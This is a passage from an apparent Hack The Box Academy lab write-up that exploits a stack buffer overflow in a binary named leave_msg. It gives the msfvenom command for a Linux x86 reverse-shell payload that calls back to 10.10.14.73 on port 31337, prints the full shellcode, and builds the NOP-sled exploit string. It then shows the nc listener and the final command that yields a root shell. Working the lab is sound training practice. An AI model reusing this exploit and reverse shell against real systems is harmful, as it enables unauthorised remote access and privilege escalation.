\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" + "\x66" * 4')
    ```
* We then have 0x0a, we remove it from the list and substract again 1 byte
* And the same again with 0x20
* Our bad chars are now `\x00\x09\x0a\x20`

### Generate shell code

```
msfvenom -p linux/x86/shell_reverse_tcp lhost=10.10.14.73 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode
```

*   We copy our shellcode and format it in one string so that this:

    ```
    "\xda\xce\xbe\xc6\x35\x8e\xcb\xd9\x74\x24\xf4\x58\x31\xc9\xb1"
    "\x12\x83\xe8\xfc\x31\x70\x13\x03\xb6\x26\x6c\x3e\x07\x92\x87"
    "\x22\x34\x67\x3b\xcf\xb8\xee\x5a\xbf\xda\x3d\x1c\x53\x7b\x0e"
    "\x22\x99\xfb\x27\x24\xd8\x93\xbd\xdc\x14\x2a\xaa\xe2\x28\xd6"
    "\x43\x6a\xc9\x96\xf2\x3c\x5b\x85\x49\xbf\xd2\xc8\x63\x40\xb6"
    "\x62\x12\x6e\x44\x1a\x82\x5f\x85\xb8\x3b\x29\x3a\x6e\xef\xa0"
    "\x5c\x3e\x04\x7e\x1e";
    ```

    Becomes this:

    ```
    "\xda\xce\xbe\xc6\x35\x8e\xcb\xd9\x74\x24\xf4\x58\x31\xc9\xb1\x12\x83\xe8\xfc\x31\x70\x13\x03\xb6\x26\x6c\x3e\x07\x92\x87\x22\x34\x67\x3b\xcf\xb8\xee\x5a\xbf\xda\x3d\x1c\x53\x7b\x0e\x22\x99\xfb\x27\x24\xd8\x93\xbd\xdc\x14\x2a\xaa\xe2\x28\xd6\x43\x6a\xc9\x96\xf2\x3c\x5b\x85\x49\xbf\xd2\xc8\x63\x40\xb6\x62\x12\x6e\x44\x1a\x82\x5f\x85\xb8\x3b\x29\x3a\x6e\xef\xa0\x5c\x3e\x04\x7e\x1e";
    ```
*   Our payload is 95 bytes as mentioned by msfvenom

    ```
    Buffer = "\x55" * (2064 - 124 - 95 - 4)
        NOPs = "\x90" * 124
    Shellcode = "MSF-SHELLCODE"
         EIP = "\x66" * 4'
    ```

    ```
    run $(python -c 'print "\x55" * (2064 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xce\xbe\xc6\x35\x8e\xcb\xd9\x74\x24\xf4\x58\x31\xc9\xb1\x12\x83\xe8\xfc\x31\x70\x13\x03\xb6\x26\x6c\x3e\x07\x92\x87\x22\x34\x67\x3b\xcf\xb8\xee\x5a\xbf\xda\x3d\x1c\x53\x7b\x0e\x22\x99\xfb\x27\x24\xd8\x93\xbd\xdc\x14\x2a\xaa\xe2\x28\xd6\x43\x6a\xc9\x96\xf2\x3c\x5b\x85\x49\xbf\xd2\xc8\x63\x40\xb6\x62\x12\x6e\x44\x1a\x82\x5f\x85\xb8\x3b\x29\x3a\x6e\xef\xa0\x5c\x3e\x04\x7e\x1e" + "\x66" * 4')
    ```
* After our NOPs we have our shellcode:\
  

### Identify a return adr

* We can take and address before the end of nops but in the nops so that our eip can jump there `0xffffd730`
* We are now ready for the final exploit
* We launch a listener `nc -lvp 31337`
*   We send our payload

    ```
    ./leave_msg $(python -c 'print "\x55" * (2064 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xce\xbe\xc6\x35\x8e\xcb\xd9\x74\x24\xf4\x58\x31\xc9\xb1\x12\x83\xe8\xfc\x31\x70\x13\x03\xb6\x26\x6c\x3e\x07\x92\x87\x22\x34\x67\x3b\xcf\xb8\xee\x5a\xbf\xda\x3d\x1c\x53\x7b\x0e\x22\x99\xfb\x27\x24\xd8\x93\xbd\xdc\x14\x2a\xaa\xe2\x28\xd6\x43\x6a\xc9\x96\xf2\x3c\x5b\x85\x49\xbf\xd2\xc8\x63\x40\xb6\x62\x12\x6e\x44\x1a\x82\x5f\x85\xb8\x3b\x29\x3a\x6e\xef\xa0\x5c\x3e\x04\x7e\x1e" + "\x30\xd7\xff\xff"')
    ```
* We get a shell and can read the root flag located here: `/root/flag.txt`

## Tools


GNU Debugger


## Resources

* [HTB Academy](https://academy.hackthebox.com)
